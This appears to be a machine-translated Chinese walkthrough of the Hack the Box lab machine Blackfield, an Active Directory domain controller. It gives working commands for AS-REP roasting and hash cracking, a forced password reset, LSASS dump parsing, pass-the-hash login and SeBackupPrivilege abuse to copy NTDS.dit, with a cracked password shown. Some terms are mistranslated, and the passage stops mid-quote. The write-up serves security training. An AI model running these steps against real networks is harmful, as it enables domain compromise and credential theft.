# 黑掉盒子——布莱克菲尔德

> 原文：<https://infosecwriteups.com/hack-the-box-blackfield-35b64183a696?source=collection_archive---------1----------------------->



[https://www.hackthebox.eu/home/machines/profile/255](https://www.hackthebox.eu/home/machines/profile/255)

Blackfield 是 Hack the Box 的 40 分机器，它要求你利用最近在机器上进行的计算机取证调查后所犯的错误。这些文件留下了关于机器的有价值的信息，通常是在进行计算机取证时提取的，其中包括 LSASS 的转储。如果所有的密码都被更改了，那么访问系统转储将变得毫无意义，但事实并非如此。为了获得机器上的系统，我滥用了 SEBackupPrivilege 来获得 NTDS.dit 的副本，并解析它以获得管理员散列。

# 总结一下解决箱子问题的步骤:

**初始立足点:**

*   识别有效的域用户
*   砷焙烧
*   强制更改用户的密码

**audit2020 → svc_backup:**

*   从转储文件中提取密码

**SVC _ backup→管理员:**

*   滥用备份特权提取 NTDS。DIT 和系统配置单元
*   使用`secretsdump`提取域哈希

# 扫描:

我首先从`masscan`开始识别机器中打开的端口:

```
sudo masscan -p1-65535,U:1-65535 10.10.10.192 --rate=1000 -e tun0 
```

结果如下:

```
Discovered open port 389/tcp on 10.10.10.192                                    Discovered open port 53/udp on 10.10.10.192                                     Discovered open port 445/tcp on 10.10.10.192                                    Discovered open port 5985/tcp on 10.10.10.192                                   Discovered open port 53/tcp on 10.10.10.192                                     Discovered open port 593/tcp on 10.10.10.192                                    Discovered open port 135/tcp on 10.10.10.192                                    Discovered open port 3268/tcp on 10.10.10.192                                   Discovered open port 88/tcp on 10.10.10.192
```

根据打开的端口，我最有可能处理的是一个域控制器。然后，我可以将其输出保存在一个文件中，并解析以仅获得端口号:

```
sif0@kali:~/htb/boxes/Blackfield-10.10.10.192$ cat masscan.out |cut -d "/" -f 1 | cut -d " " -f 4 | paste -s -d, - 389,53,445,5985,53,593,135,3268,88
```

然后我运行`Nmap`来了解更多关于开放端口的信息:

```
sif0@kali:~/htb/boxes/Blackfield-10.10.10.192$ mkdir nmap; sudo nmap -sV -sC 10.10.10.192 -oA nmap/blackfield -vv -n -p 389,53,445,5985,593,135,3268,88
```

`Nmap`结果信息不多。蝙蝠没有弱点。然后我使用`ldapsearch`来获得更多领域相关的信息。总结一下:

```
DOMAIN: Blackfield
FQDN: Blackfield.local 
DC: DC01.blackfield.local
```

## SMB 枚举

我尝试列举是否有有趣的中小企业共享:



这里的非默认共享是“forensic”和“profile$”。然后，我继续检查 forensic 共享下有什么，但是我没有足够的权限。检查另一个共享:



鉴于它可能是潜在的用户名，因为它遵循在 Active Directory 中创建用户名的常见方式 *F.LastName* 的格式，我将这些名称放在一个文件中，以识别所有这些用户名是否有效。

## 使用 Kerberos 的用户名枚举

我可以使用`[Kerbrute](https://github.com/ropnop/kerbrute)`枚举有效的用户名，这基本上滥用了 Kerberos 如何响应来识别用户是否有效。

```
kerbrute_linux_386 userenum --dc 10.10.10.192 -d blackfield.local users.txt --safe -v
```



最终，314 个用户名中只有 3 个有效。



或者，我可以使用`Metasploit`中的一个辅助模块来做同样的事情:

```
msf5 auxiliary(gather/kerberos_enumusers) >
```

这会给你同样的结果，但是`Kerbrute`要稳定得多(或者 Impacket 的 GetNPUsers.py)。



所以只有 3 个有效用户:

```
**audit2020
svc_backup
support**
```

## 砷焙烧

然后我检查了这些用户中是否有人容易受到 AS-REP 烘烤，我已经在我的[森林文章](https://medium.com/bugbountywriteup/hackthebox-forest-5a11553de1)中讨论过了。我使用了`Impacket’s` GetNPUsers.py:

```
GetNPUsers.py blackfield.local/ -usersfile real-users.txt -dc-ip 10.10.10.192
```

由于用户`support`易受攻击，DC 给了我们一个 TGS，我们可以尝试破解它以获得明文密码。

```
[-] User **audit2020** doesn't have UF_DONT_REQUIRE_PREAUTH set $krb5asrep$23$**support**@BLACKFIELD.LOCAL:e6dfe911ddb2bd2631db466196100954$360cd4940e6f7b574aa0a1cadde4a74dd1320b85cd9d043c14260c62558fc409a4b0015132514b3e5aca159bed53c2716ac70da1abc8b8657d959450ad1e69eca2d51209157c977183b1b0465545f9f5dc3a70d00c0c2f713010a5fcba856615f671896f181709a581273c4f85214205ca84760a4650eebd545b62d7562a8a62c2f39d3a502a4411390df2f7cc5abe997fa06e384500925d5486bbba4aa5c4279d28560905434d99d30ba70dec2b237302ac3d32cfca19e9065a6a0544d9be93c6c034820293557679531fcbd2cebdef926630833716e4b658a43b573bd4d018c53d7083213f6c45f524ab327163f71bb05e6277 [-] User **svc_backup** doesn't have UF_DONT_REQUIRE_PREAUTH set
```

使用`hashcat`，它出现裂缝:

```
hashcat -m 18200 support.hash /usr/share/wordlists/rockyou.txt ..<snip>..$krb5asrep$23$support@BLACKFIELD.LOCAL:e6dfe911ddb2bd2631db466196100954$360cd4940e6f7b574aa0a1cadde4a74dd1320b85cd9d043c14260c62558fc409a4b0015132514b3e5aca159bed53c2716ac70da1abc8b8657d959450ad1e69eca2d51209157c977183b1b0465545f9f5dc3a70d00c0c2f713010a5fcba856615f671896f181709a581273c4f85214205ca84760a4650eebd545b62d7562a8a62c2f39d3a502a4411390df2f7cc5abe997fa06e384500925d5486bbba4aa5c4279d28560905434d99d30ba70dec2b237302ac3d32cfca19e9065a6a0544d9be93c6c034820293557679531fcbd2cebdef926630833716e4b658a43b573bd4d018c53d7083213f6c45f524ab327163f71bb05e6277:**#00^BlackKnight**
```

现在我有了用户`support`的密码，我知道我有 1 个有效的域凭证。在 Active Directory 环境中，访问一个有效的凭据允许您枚举和收集大量关于域的信息。我用`ldapsearch`进一步列举。

```
ldapsearch -x -h 10.10.10.192 -D 'BLACKFIELD\support' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=LOCAL"
```

为了简洁起见，我没有在这里包括输出，只是想展示如何使用`ldapsearch`进行枚举。原因是当使用`ldapsearch`进行调查时，有一些属性很容易被发现，而`ldapdomaindump` 并没有将这些属性包含在它的输出中。使用`ldapdomaindump` 的好处是看起来很舒服。为了使事情变得简单，我使用`ldapdomaindump` 来收集关于领域的信息:

```
ldapdomaindump ldap://10.10.10.192 -u "BLACKFIELD\support" -p "#00^BlackKnight" --no-json --no-grep -o ldapdomaindump[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

研究 domain_users.html 文件，其中提到了机器创建者(kudos，这个框很棒)和关于用户`svc_backup` 是`Remote Management Users`成员的信息，这意味着用户可以使用 PowerShell Remoting 在机器上执行命令。



检查另外两个有效用户的信息，我们可以看到`DONT_REQ_PREAUTH` 被设置在`support` 用户上，这就是为什么它容易受到 AS-REP 烘烤的原因。



此外，由于我有一个有效的域用户，我可以运行`Bloodhound` 来了解关于该域的更多信息。因为我还没有在机器上执行代码，所以我不能使用 SharpHound ingestor(因为我没有在加入域的 Windows 机器上，但我认为如果你让你的 Linux 机器与 Kerberos 对话，这仍然是可能的),但有一个基于 Python3 的 ingestor 就足够了。

```
bloodhound-python -u support -p "#00^BlackKnight" -ns 10.10.10.192 -d blackfield.local -c all
```



在 Bloodhound GUI 上加载数据，似乎`support` 用户可以强制更改用户 audit2020 的密码。一个用户对另一个用户的这种控制非常普遍，因为帮助台或支持角色能够重置用户的密码(因为用户经常忘记他们的密码)。


点击帮助:

```
The user SUPPORT[@BLACKFIELD](http://twitter.com/BLACKFIELD).LOCAL has the capability to change the user AUDIT2020@BLACKFIELD.LOCAL's password without knowing that user's current password.
```

此外，`svc_backup` 用户是`[Backup Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-backupoperators)`组的成员，该组是一个特权组，可以被滥用来获取 NTDS.dit(存储域哈希的位置)文件的副本。



因此，在这里，我可以说这可能是获得管理员权限所需的权限提升。

**使用支持用户强制重置密码**

由于`Bloodhound` 上的滥用信息需要 Powershell 和某种形式的代码在任何加入域的机器上执行，我从 Linux 机器上搜索了其他方式来完成此操作，并发现了以下资源:[https://恶意. link/post/2017/reset-ad-user-password-with-Linux/](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)

从博客本身，我可以使用`rpcclient`重置密码。要连接:

```
rpcclient -U support 10.10.10.192
```

输入密码后，我执行了以下操作:



我在修改`svc_backup`的密码时被拒绝访问，但成功地将`audit2020`的密码修改为“password123！。

然后，我使用`crackmapexec`来验证凭证是否在 smb 上工作:

```
cme smb 10.10.10.192 -u audit2020 -p 'password123!' -d blackfield.local
```

它工作了，我现在对 forensic 共享拥有读权限(用户`support` 没有)。


## 从 LSASS 转储中提取凭据

然后，我使用`smbclient`来枚举 forensic 共享下的文件夹:



看到这里可能有有趣的文件，我试着下载了一下。

```
smbclient "\\\\10.10.10.192\\forensic" -c "prompt;recurse;mget *" -U=audit2020Enter WORKGROUP\audit2020's password:  
getting file \commands_output\domain_admins.txt of size 528 as domain_admins.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec) getting file \commands_output\domain_groups.txt of size 962 as domain_groups.txt (0.8 KiloBytes/sec) (average 0.6 KiloBytes/sec) getting file \commands_output\domain_users.txt of size 16454 as domain_users.txt (16.9 KiloBytes/sec) (average 5.1 KiloBytes/sec)..<snip>..
```

我认为这些文件是某些易失性模块或命令的输出，但不要相信我的话。然后，我尝试读取其中一个文件，但有趣的是，它被检测为一个二进制文件。



然后想起 PowerShell 用 UTF-16 做编码，和 Linux 不匹配。所以这些文件可能来自 PowerShell 脚本？接下来，可以使用`iconv`进行读取

```
iconv -f utf-16 -t utf-8 domain_admins.txt
```

输出将是:



这些凭证不起作用。这些文件来自计算机取证分析。这表明`Administrator` 用户受到威胁，其密码被更改为该值。请记住，这些文件来自计算机取证调查，因此这些文件来自机器的先前状态。法医共享上有一些有趣的文件。一个有趣的文件是`lsass.zip`文件，它很可能包含提取完成时`lsass.exe`进程的转储。当我试图下载它时，我遇到了一些问题:



然后，我尝试了各种易于搜索的选项，但能够使用`smbget`进行搜索，这就像中小企业的`wget`:

```
smbget smb://10.10.10.192/forensic/memory_analysis/lsass.zip -U=audit2020%password123\!
```

使用 7z 检查`lsass.zip`的内容:



它确实包含一个名为`lsass.DMP`的文件。

然后我使用`[pypykatz](https://github.com/skelsec/pypykatz)`解析转储文件:

```
pypykatz lsa minidump /home/sif0/htb/boxes/Blackfield-10.10.10.192/forensic-share/lsass.DMP
```

我立刻得到了`svc_backup`的散列值:



还有一个针对`Administrator` 用户的散列，但这很可能不再有效:



由于`svc_backup` 是`Remote Management Users`的一部分，我通过`Evil-WinRM`尝试收集散列来使用 PowerShell Remoting:

```
evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d' 
```

我可以登录。



然后我检查我是否已经可以访问 user.txt，看起来我可以。



## svc_backup ->管理员

然后，我在 C:\users\目录下检查感兴趣的文件:

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> gci C:\users\ -recurse -force -depth 3
```

有趣的是，我可以访问`C:\Users\Administrator`下的文件夹:



此外，`C:\Users\Administrator\Documents\forensic`似乎是作为 SMB 的`forensic`共享安装的。另外，还有一个 watcher.ps1 文件。虽然我没有阅读它的特权，但是我稍后会检查它。

我试图读取 root.txt，但获得许可被拒绝:



我还试图复制 notes.txt，但访问被拒绝:

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> copy c:\users\administrator\desktop\notes.txt . 
Access to the path 'C:\users\administrator\desktop\notes.txt' is denied.
At line:1 char:1
+ copy c:\users\administrator\desktop\notes.txt .
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator\desktop\notes.txt:FileInfo) [Copy-Item], UnauthorizedAccessException
    + FullyQualifiedErrorId : CopyFileInfoItemUnauthorizedAccessError,Microsoft.PowerShell.Commands.CopyItemCommand
```

然后我记得`svc_backup`用户是`Backup Operators`组的成员，该组很可能启用了`SEBackupPrivilege` 。我用 `whoami /priv`来验证它:



## 滥用特权

我以前在多主机机器上做过这种滥用，所以这对我来说不是什么新鲜事。这可以通过使用带签名的二进制文件`diskshadow`创建 NTDS.dit 的卷影副本来完成。首先，创建一个名为 script.txt 的文本文件，其中包含以下内容:

```
{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  

create  

expose %mydrive% w:  
end backup  
}
```

然后执行`diskshadow` 并使用脚本文件作为它的输入。

```
diskshadow /s script.txt
```

然后，我使用这个 [repo](https://github.com/giuliano108/SeBackupPrivilege) 来复制创建的 NTDS.dit 的卷影副本，然后只需遵循 repo 中的步骤。由于我使用的是`Evil-WinRM`，我可以使用它的上传功能:

```
upload SeBackupPrivilegeCmdLets.dll c:\users\svc_backup\music\
upload SeBackupPrivilegeUtils.dll c:\users\svc_backup\music\
```

然后，我可以导入这两个文件:



为了测试一切是否正常，我首先尝试传输 notes.txt:

```
copy-filesebackupprivilege C:\users\administrator\desktop\notes.txt .\notes.txt -overwrite
```



阅读其内容:

```
Mates,  After the domain compromise and computer forensic last week, auditors advised us to: 
- change every passwords -- Done. 
- change krbtgt password twice -- Done. 
